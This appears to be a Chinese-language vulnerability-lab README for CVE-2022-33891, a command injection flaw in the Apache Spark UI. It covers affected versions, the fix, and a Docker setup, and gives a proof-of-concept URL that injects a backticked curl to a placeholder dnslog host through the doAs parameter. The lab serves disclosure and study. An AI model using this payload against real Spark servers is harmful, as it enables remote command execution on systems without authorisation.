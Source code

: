 # CVE-2022-33891 Apache Spark shell 命令注入漏洞

​	Apache Spark 是专为大规模数据处理而设计的快速通用的计算引擎。Spark是UC Berkeley AMP lab (加州大学伯克利分校的AMP实验室)所开源的类Hadoop MapReduce的通用并行框架 Spark，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是——Job中间输出结果可以保存在内存中，从而不再需要读写HDFS，因此Spark能更好地适用于数据挖掘与机器学习等需要迭代的MapReduce的算法。

​	Apache Spark UI 提供了通过配置选项spark.acls.enable 启用ACL 的可能性。通过身份验证过滤器，可以检查用户是否具有查看或修改应用程序的访问权限。如果启用 ACL，则 HttpSecurityFilter 中的代码路径可以允许某人通过提供任意用户名来执行模拟。然后，恶意用户可能能够访问权限检查功能，该功能最终会根据他们的输入构建 Unix shell 命令并执行它。这将导致 Spark 当前运行的用户执行任意 shell 命令。

**漏洞影响版本**

This affects Apache Spark versions 3.0.3 and earlier, versions 3.1.1 to 3.1.2, and versions 3.2.0 to 3.2.1.

**修复方式**

升级到 Apache Spark 3.1.3、3.2.2 或 3.3.0 或更高版本



项目地址https://github.com/apache/spark/tree/master



参考链接：

- https://github.com/advisories/GHSA-4x9r-j582-cgr8
- https://blog.csdn.net/shelter1234567/article/details/137049553

## 漏洞环境

执行如下命令启动一个spark-v3.1.1-web服务器：

```
docker compose up -d
```



服务启动后，访问`http://your-ip:4040`即可查看到spark主页。

## 漏洞复现

访问url路径

```
http://your-ip:4040/jobs/?doAs=`curl xxxx.dnslog.cn`
```

"``"内即为执行的命令

![](https://img-blog.csdnimg.cn/direct/b68ed3b843904d639fbf1be18cda8770.png)

![](https://img-blog.csdnimg.cn/direct/8607324cc29e463394ad72cbf6eae607.png)